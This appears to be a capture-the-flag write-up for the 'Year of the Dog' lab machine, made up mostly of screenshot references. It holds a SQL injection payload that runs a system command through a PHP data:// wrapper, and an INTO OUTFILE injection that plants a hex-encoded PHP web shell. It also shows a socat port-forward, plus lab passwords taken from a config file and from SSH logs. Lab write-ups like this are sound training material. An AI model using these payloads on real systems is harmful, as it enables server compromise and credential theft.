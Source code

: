 # Year of the dog
20 August 2022
10:25 PM

<img src="year-of-the-dog/media/image1.png"
style="width:5.90833in;height:1.04167in" />

<img src="year-of-the-dog/media/image2.png"
style="width:6.13333in;height:2.71667in" />

<img src="year-of-the-dog/media/image3.png"
style="width:6.25in;height:2.59167in" />

<img src="year-of-the-dog/media/image4.png"
style="width:6.75833in;height:2.475in" />

<img src="year-of-the-dog/media/image5.png"
style="width:6.68333in;height:2.66667in" />

<img src="year-of-the-dog/media/image6.png"
style="width:6.86667in;height:0.91667in" />

union all select 1,'data://text/plain,\<?php echo system("uname
-a");?\>'-- -

<img src="year-of-the-dog/media/image7.png"
style="width:7.74167in;height:1.28333in" />

<img src="year-of-the-dog/media/image8.png"
style="width:6.83333in;height:3.05in" />

3a88c8426b0218278e13ee00ab991fc0' INTO OUTFILE
'/var/www/html/rev-shell.php' LINES TERMINATED BY
0x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E--
-

<img src="year-of-the-dog/media/image9.png"
style="width:7.08333in;height:1.38333in" />

<img src="year-of-the-dog/media/image10.png"
style="width:6.56667in;height:0.96667in"
alt="Lid Privilege Escalation. •e Google Hacking DB Vigenere Solver -ww... GTFOBins Basic Linux Privilege E.. 3a88c8426b0218278e13eeooab991fco 12 " />

<img src="year-of-the-dog/media/image11.png"
style="width:5.925in;height:2.45in"
alt="cat config. php $servername = &quot;localhost&quot;; $username = &quot;web $password = &quot; Cda3RsDJga $dbname = &quot;webapp&quot; ; $dbh = new mysqli($servername, $username, $password, $dbname); if die( &quot;Connection failed: &quot; " />

Cda3RsDJga

<img src="year-of-the-dog/media/image12.png"
style="width:5.99167in;height:1.60833in" />

<img src="year-of-the-dog/media/image13.png"
style="width:6.00833in;height:0.41667in"
alt="wul-dataayear-of-thé-dog:/tmp$ ./socat TCP-LISTEN:2222 , fork TCP: 127.ø.ø.1:3øøø " />

<img src="year-of-the-dog/media/image14.png"
style="width:6.075in;height:2.21667in"
alt="O Google Hacking DB Viaenere Solver Home Exc*ore a 10.10.25.254:2222 Lxd Privilege Escalation GTFOBins Basic Linux Privilege E.. Online - Reverse Shell . Beyond SQLi: Obfusca.._ GitHub - bonsaivikinq/_. [Write-up] Vulnix - Pla. MDS Online I Free MD... R Register Sign I n Year of the Dog A painless, self-hosted Git service Easy to install Simolv run the binarv for Vour Olatform. Shio it with Docker. or Cross-platform Gitea runs anvwhere Go can comoile for: Windows. macOS. " />
 
<img src="year-of-the-dog/media/image15.png"
style="width:6.05in;height:0.59167in"
alt="sep Sep Sep grep 5 20.&#39;53.•03 staging-server sshd[39218): wea-dataayear-of-the-dog:/home/dylan$ dylan work_analysis 5 staging-server sshd[39218]: Invalid user dy1anLabr4dørs4L1f3 from 192.168.1.142 port 45624 Failed password for invalid user dylanLabr4dørs4L1f3 from 192.168.1.142 port 45624 ssh2 5 staging-server sshd[39218]: Connection closed by invalid user dyIanLabr4dørs4L1f3 192.168.1.142 port 45624 [preauth] " />

<img src="year-of-the-dog/media/image16.png"
style="width:6.03333in;height:2.35833in"
alt="ww-dataayear-of-the-däg:/home/dylan$ su dylan Password: id uid=løøø(dylan) cat user. txt HM{OTE3MTQYNTM5NZRiN2VjNTQYYWM2M2Ji} " />

dylanLabr4d0rs4L1f3
